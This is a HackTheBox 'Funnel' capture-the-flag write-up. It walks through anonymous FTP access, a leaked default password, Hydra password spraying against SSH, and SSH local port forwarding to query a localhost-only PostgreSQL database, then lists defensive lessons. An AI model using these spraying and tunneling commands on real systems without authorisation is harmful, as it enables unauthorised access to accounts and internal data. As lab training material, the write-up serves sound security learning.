


# Funnel — HackTheBox
**Category / Path:** Enumeration / Tunneling / Databases  
**Difficulty:** Easy  
**Date:** 2025-11-10

---

## Objective
Use initial external access to gain a foothold, discover internal-only services, and access a database running on the target via SSH tunneling to retrieve the final proof.

---

## Tools Used
- `nmap`
- `ftp` client
- `hydra` (password spraying)
- `ssh` (local port forwarding / tunneling)
- `psql` (PostgreSQL client)
- `ss` / `netstat` for socket checks
- `proxychains` (optional, dynamic forwarding)
- Terminal + text editor for note taking

---

## Setup / Notes
- Lab deployed via HTB (target IP: `10.10.x.x` — redact or replace with your lab IP).
- I kept screenshots in `images/funnel/` and logs in `notes/` (see Files / Assets).

---

## Step-by-Step Walkthrough

### 1) Initial Enumeration
**Goal:** Discover open services and gather initial data to build usernames/password candidates.

**Commands**
```bash
nmap -sC -sV -p- <target_ip>
```

**Findings**
- Port **21 (vsftpd 3.0.3)** — allows **anonymous FTP**.
- Port **22 (OpenSSH)** — SSH login possible (user accounts likely present).

**Action**
- Connect to FTP anonymously and list directories:
```bash
ftp <target_ip>
# login as anonymous
dir
cd mail_backup
get welcome_28112022
get password_policy.pdf
```
**Notes / Screenshot**
- `welcome_28112022` is an email-like memo listing internal addresses — useful to build `usernames.txt`.
- `password_policy.pdf` contains a default password `funnel123#!#`.


---

### 2) Foothold (Password Spraying / SSH)
**Goal:** Use discovered usernames + default password to get a shell.

**Create usernames file**
From the email file, extract local parts (before `@funnel.htb`) into `usernames.txt`.

**Run Hydra (password spraying)**
```bash
hydra -L usernames.txt -p 'funnel123#!#' <target_ip> ssh
```

**Result**
- Valid credential found: `christine : funnel123#!#` (example). Use these to SSH in as `christine`.

**SSH**
```bash
ssh christine@<target_ip>
# enter funnel123#!#
```


---

### 3) Post-Login Enumeration (Local Services)
**Goal:** Find services listening only on loopback (localhost) — hints a service accessible only from machine itself.

**Commands**
```bash
ss -tln
# or
ss -tlnp
```

**Findings**
- PostgreSQL (port **5432**) is listening on `127.0.0.1:5432` — **not** reachable directly from attacker machine. This explains why the initial nmap didn't show it.


---

### 4) Tunneling — Local Port Forwarding (Foothold → DB)
**Goal:** Forward target's localhost:5432 to a local port on your machine so you can use `psql` locally to query the DB.

**Command** (interactive shell + listen locally)
```bash
ssh -L 1234:localhost:5432 christine@<target_ip>
# keep the SSH session open OR use -f -N to background:
ssh -f -N -L 1234:localhost:5432 christine@<target_ip>
```

**Verify on local machine**
```bash
ss -tlpn | grep 1234
```
You should see an SSH socket listening locally on `127.0.0.1:1234`.




---

### 5) Interact with PostgreSQL via Tunnel
**Goal:** Connect to the forwarded DB and query for interesting databases/tables.

**Install `psql` locally (if needed)**
```bash
sudo apt update && sudo apt install postgresql-client
```

**Connect**
```bash
psql -U christine -h localhost -p 1234
# when prompted, password: funnel123#!#
```

**Commands inside psql**
```sql
\l            -- list databases
\c secrets    -- connect to database named 'secrets'
\dt           -- list tables
SELECT * FROM flag;  -- inspect the table that likely contains the proof
```

**Notes**
- You should see a table (e.g., `flag`) with the value you need. **Do not paste the raw flag** — instead, redact it in public repos (e.g., `FLAG_REDACTED`).





---

## Exploitation Summary
- Anonymous FTP exposed internal memo + default password.
- Password spraying produced a valid SSH credential for `christine`.
- Local services (Postgres) were bound to localhost; SSH local port forwarding allowed remote access to the DB from my machine.
- Queried DB and retrieved the target value (flag) — redacted in public writeups.

---

## Lessons Learned / Defensive Takeaways
- **Do not expose default or weak passwords** in internal docs — treat default credentials as secrets.
- **Local-only services** can be reached if an internal host is compromised; monitor SSH sessions and abnormal tunneling.
- **Monitoring:** Alert on unexpected `ssh -L` or `-D` sessions and track outbound connections from machines that should not initiate connections.
- **Mitigations:** Remove default passwords, enforce MFA/SSH keys, restrict SSH credential reuse, and inventory internal-only services (and their bind addresses).

---

## References
- HTB Funnel lab materials (your notes & screenshots).
- `ssh` tunneling docs / `man ssh` (local/remote/dynamic forwarding).

---

## Files / Assets (repo layout)
```
HTB/
└── Funnel/
    ├── funnel.md           # this writeup
    ├── images/
    └── docx_image_1.png
    └── docx_image_2.png
    └── docx_image_3.png
    └── docx_image_4.png
    └── docx_image_5.png
    └── docx_image_6.png
    └── docx_image_7.png
    └── docx_image_8.png
    └── docx_image_9.png
    └── docx_image_10.png
    └── docx_image_11.png
    └── docx_image_12.png
    └── docx_image_13.png
    └── docx_image_14.png
    └── docx_image_15.png
    └── docx_image_16.png
    └── docx_image_17.png
    └── docx_image_18.png
    └── docx_image_19.png
    └── docx_image_20.png
    └── docx_image_21.png
    └── docx_image_22.png
    └── docx_image_23.png
    └── docx_image_24.png
    └── pdf_page_1.png
    └── pdf_page_2.png
    └── pdf_page_3.png
    └── pdf_page_4.png
    └── pdf_page_5.png
    └── pdf_page_6.png
    └── pdf_page_7.png
    └── pdf_page_8.png
    └── pdf_page_9.png
    └── pdf_page_10.png
    └── pdf_page_11.png
    └── pdf_page_12.png
    └── pdf_page_13.png
    └── pdf_page_14.png
    └── pdf_page_15.png
    └── pdf_page_16.png
    └── pdf_page_17.png
    └── pdf_page_18.png
    └── pdf_page_19.png
    └── notes/
        └── commands.txt
```
